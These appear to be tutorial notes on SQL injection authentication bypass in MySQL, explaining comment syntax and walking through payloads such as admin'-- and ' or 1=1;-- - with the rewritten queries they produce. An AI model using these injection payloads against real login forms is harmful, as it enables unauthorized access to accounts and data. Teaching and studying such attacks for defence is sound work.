



Comments
We can use two types of line comments with MySQL -- and #, in addition to an in-line comment /**/ (though this is not usually used in SQL injections)
Note: In SQL, using two dashes only is not enough to start a comment. So, there has to be an empty space after them, so the comment starts with (-- ), with a space at the end. This is sometimes URL encoded as (--+), as spaces in URLs are encoded as (+). To make it clear, we will add another (-) at at the end (-- -), to show the use of a space character.
Bypass login Logic
Example of a normal SQL query that validate the loginSELECT * FROM users WHERE username = ‘admin’ AND password = ‘password’if an attacker don't know the password but only that exist an username admin
Can try to exploit the database and instead of admin we insert the payload admin’--
So that the first string terminator(') will end the username parameter requested, and the SQL comment (--) causes the last part of the query to be ignored and the password check is bypassed
So the modified query is:
SELECT * FROM users WHERE username = ‘admin’-- AND password = ‘idonotknow’That is equal to:
SELECT * FROM users WHERE username = ‘admin’
• Bypass Login: If we do
not know
any username
if an attacker don't know anything neither the username neither the password
Can try to exploit the database and instead of the username we insert the payload ’ or 1=1;-- -
' → the string terminator will end the empty username parameter,
or 1=1 → the boolean condition is always true and so the username will be always valid
;-- - → the SQL comment () causes the last part of the query to be ignored and the password check is bypassed
So the modified query is:
SELECT * FROM users WHERE username = ‘’ or 1=1;-- - AND password = ‘idonotknow’;That is equal to:
SELECT * FROM users WHERE username = ‘’ or 1=1;-- -

•
Bypass Login: if we
know
a username
Example of a normal SQL query that validate the loginSELECT * FROM users WHERE username = ‘admin@ecorp.com’ AND password = ‘password’;if an attacker don't know the password but only that exist an username admin@ecorp.com
Can try to exploit the database and instead of admin@ecorp.com we insert the payload admin@ecorp.com’;-- -
So that the string terminator(') will end the username parameter requested, and the SQL comment (;-- -) causes the last part of the query to be ignored and the password check is bypassed
So the modified query is:
SELECT * FROM users WHERE username = ‘admin@ecorp.com’;-- - AND password = ‘idonotknow’;That is equal to:
SELECT * FROM users WHERE username = ‘admin@ecorp.com’;-- -

bibliography:
The Web Application Hacker's Handbook